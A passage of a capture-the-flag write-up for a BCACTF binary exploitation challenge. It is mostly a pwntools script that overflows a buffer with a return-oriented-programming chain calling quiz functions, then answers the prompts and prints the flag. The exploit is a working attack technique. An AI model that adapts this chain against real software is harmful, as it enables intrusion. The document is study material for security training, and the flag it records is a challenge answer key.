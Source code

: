 offset = 64
payload = b'i will get an A\x00'
payload += b'\x00' * (offset - len(payload))
payload += p64(rdi_ret)
payload += p64(addr_quiz)
payload += p64(addr_logic)
payload += p64(addr_quiz)
payload += p64(addr_functions)
payload += p64(addr_quiz)
payload += p64(addr_algebra)
payload += p64(addr_quiz)
payload += p64(addr_main)
payload += p64(addr_quiz)

s.sendlineafter("> ", payload)

# logic
s.sendlineafter("p: ", "1\n")
s.sendlineafter("q: ", "0\n")  # This has to be 0 becaues of '(q != s)'.
s.sendlineafter("r: ", "1\n")  # 
s.sendlineafter("s: ", "1\n")  # This has to be 1.

# functions
s.sendlineafter("a: ", "2\n")
s.sendlineafter("b: ", "-8\n")
s.sendlineafter("c: ", "6\n")

# algebra
s.sendlineafter("x: ", "3\n")
s.sendlineafter("y: ", "-17\n")
s.sendlineafter("z: ", "12\n")

print(s.recvall())
{{< / highlight >}}

<br />

Flag: `bcactf{the_limit_as_t_approaches_the_ctf_of_my_sanity_approaches_0}`




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />